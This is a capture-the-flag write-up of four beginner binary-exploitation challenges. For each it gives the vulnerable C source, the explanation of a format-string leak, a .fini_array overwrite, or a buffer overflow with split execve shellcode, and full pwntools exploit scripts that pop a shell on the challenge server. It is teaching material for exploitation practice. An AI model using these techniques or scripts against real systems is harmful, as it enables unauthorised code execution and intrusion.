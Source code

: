 ## Small spaces

```c
#include<stdio.h>

int main(){
    setvbuf(stdout, NULL, _IONBF, 0);

    char name[9];
    char flag[100];
    FILE* stream;
    stream = fopen("flag.txt","r");
    fread(&flag,sizeof(char), 100, stream);
    fclose(stream);
    puts("What's your name? (less than 9 characters please!)");
    fgets(name,8,stdin);
    printf("Welcome, ");
    printf(name);
    return 0;
}
```

In this challenge, the flag is read onto the stack in the flag variable. We also have a format string vulnerability on line 15 that we can use to leak stack values. However, our payload can only be 8 bytes long. If we just used `%x` we wouldn't have enough space (we need `%x` * 7 to read the first stack value. The first 6 read from the [6 registers used to store the first 6 'arguments'](https://ctf101.org/binary-exploitation/what-are-calling-conventions/).) However, on UNIX, we can use [`$` to specify the argument index](https://stackoverflow.com/questions/19327441/gcc-dollar-sign-in-printf-format-string) to print. Thus, we can read the flag by trying a few different memory offsets.



## Unsafe exit

```c
#include<stdio.h>
void win(){
    system("/bin/sh");
}
int main(){
    setvbuf(stdout, NULL, _IONBF, 0);

    long where;
    long what;
    printf("Please enter where you went and what you did there: ");
    scanf("%ld %ld",&where,&what);
    printf("Saving data to database...\n");
    *(long*)where = what;
    printf("Thanks for using UnsafeExit. You can now exit unsafely!\n");
    return 0;
}
```

This program allows us to write to arbitrary memory locations. Using `checksec`, we find that the binary is compiled with RELRO off. 

```
Arch:     amd64-64-little
RELRO:    No RELRO
Stack:    No canary found
NX:       NX enabled
PIE:      No PIE (0x400000)
```

This means that there is no write protection for many areas of the binary. From here, there are several locations that we can write to to control the flow of the program. The easiest location is the `.fini_array` section of the binary. Running `objdump -x chal`, we find under `Sections`:

```
18 .fini_array   00000008  0000000000403210  0000000000403210  00002210  2**3
                  CONTENTS, ALLOC, LOAD, DATA

```

After running the main function, any functions whose address is in `.fini_array` will be run. This makes `.fini_array` a good target for exploitation because its address is always constant and easily determined. 

You can use the following script to obtain the address of any section in an ELF:

```python
def get_section_address(elf, section_name):
    possible = [x for x in elf.sections if x.name == section_name]
    if not possible:
        raise Exception(f"{section_name} not found")
    addresses = [x for x in elf.search(possible[0].data())]
    if len(addresses) > 1:
        print("Warning: Multiple sections contain same data found")
    return addresses[0]
```

Once the address of `.fini_array` is obtained, write the address of `win` to it and you'll get a shell.



## Halfscotch

Comments: Shellcode challenges are actually very very common. You'll probably see one at every beginner CTF.

```c
#include<stdio.h>

int main(){
    setvbuf(stdout, NULL, _IONBF, 0);
    setbuf(stdin, NULL);
    setbuf(stderr, NULL);

    char name[112];
    name[111]=69;
    printf("Let's start at %p\n",&name); 
    fgets(name, 130, stdin);
    printf("Hello, %s", name);
    puts("Let's play hopscotch");
    if(name[111] != 69){
      printf("Outstanding move, but that's illegal.");
      exit(0);
    }
    printf("I guess you lost lmao");
    return 0;
}
```

We observe that there is a buffer overflow vulnerability because we are writing up to 130 bytes into a 112 byte buffer. However, byte 111 needs to be 69, otherwise the program exits before it can jump to the overwritten rip. Running `checksec`, we find that the program has RWX segments.

```
Arch:     amd64-64-little
RELRO:    Partial RELRO
Stack:    No canary found
NX:       NX disabled
PIE:      No PIE (0x400000)
RWX:      Has RWX segments
```

This means that the stack (a region we have some control over) is executable. If you see this in a CTF it's probably almost always shellcode. Shellcode is assembly that, when executed, gives us a shell. If we are able to get our shellcode into our stack, and trick the program into jumping to our shellcode, we can get a shell. Fortunately, the address of our input has been given to us, so we know exactly where to jump to. You can get shellcode from various websites, like exploitdb.com, but I find that the pwntools shellcraft module can generate shellcode that conveniently works. Since the length of our shellcode is much less than 111 characters, we can bypass the canary very easily.

```python
from pwn import *
from binascii import *

p = remote("ctf.nush.app",1339)
e = ELF("./chal")
context.binary = e

l = p.recvline()
start = int(l[len("Let's start at 0x"):-1],16)
print(hex(start))
shellcode = asm(shellcraft.sh())
p.sendline(shellcode + b"\xcc"*(111-len(shellcode))+b"E"+b"a"*8+p64(start))
p.interactive()
```

## Hopscotch

```c
#include<stdio.h>

int main(){
    setvbuf(stdout, NULL, _IONBF, 0);
    
    char name[16];
    name[16-1]=69;
    puts("Can you JMP to the destination?");
    printf("Let's start at %p\n",&name); 
    fgets(name, 48, stdin);
    printf("Hello, %s", name);
    puts("Let's play hopscotch");
    if(name[16-1] != 69){
      printf("Outstanding move, but that's illegal.");
      exit(0);
    }
    printf("I guess you lost lmao");
    return 0;
}
```

With a few tweaks, this challenge is much much harder than halfscotch. Our total payload size can only be 48 characters, and we're interrupted in the middle by the canary. This is a very big problem because the length of our shellcode (around 25 characters) is greater than 16. For this challenge, we will have to delve into the assembly that constitutes our shellcode.

```assembly
xor rdx, rdx
movabs rbx, 0x68732f2f6e69622f # moves /bin/sh into rbx
xor rsi, rsi
push rax
push rbx
push rsp
pop rdi
mov al, 0x3b # syscall code for execve
syscall 
```

Due to the canary at byte 15, we are forced to split our shellcode into 2 parts. We can use a jump instruction to jump over the canary into the other part. Here's a visual representation of the stack.

```
|       buffer (16 bytes)         |
|part 1 (15 bytes)|canary (1 byte)|rbp (8 bytes)|rip (8 bytes)| remaining writable stack (16 bytes) |
```

The first 2 instructions of the shellcode already take up 13 bytes. We only have 2 bytes to jump to the next part. Thus, there's not enough space to jump to a specific memory address. Fortunately, when the `ret` instruction is called, `rsp` is set to the end of `rip` (because the stack frame is discarded). This happens to be where the second part of our shellcode is. Thus, we can just `jmp rsp` which nicely fits in 2 bytes.

```
|       buffer (16 bytes)         |
|part 1 (15 bytes)|canary (1 byte)|rbp (8 bytes)|rip (8 bytes)| remaining writable stack (16 bytes) |
                                                              ^ rsp is here :)
```

```python
from pwn import *
from binascii import *

p = remote("ctf.nush.app",1340)
e = ELF("./chal")
context.binary = e


p.recvline()
l = p.recvline()
start = int(l[len("Let's start at 0x"):-1],16)
s = asm(f"""
xor rdx, rdx
movabs rbx, 0x68732f2f6e69622f
jmp rsp
""")
s2 = asm("""
xor rsi, rsi
push rax
push rbx
push rsp
pop rdi
mov al, 0x3b
syscall
""")
print(len(s),s)
assert len(s)<16
pl = s + b"\xcc"*(15-len(s))+b"E"+b"a"*8+p64(start)+s2
assert len(pl) < 48
p.sendline(pl)
p.interactive()
```

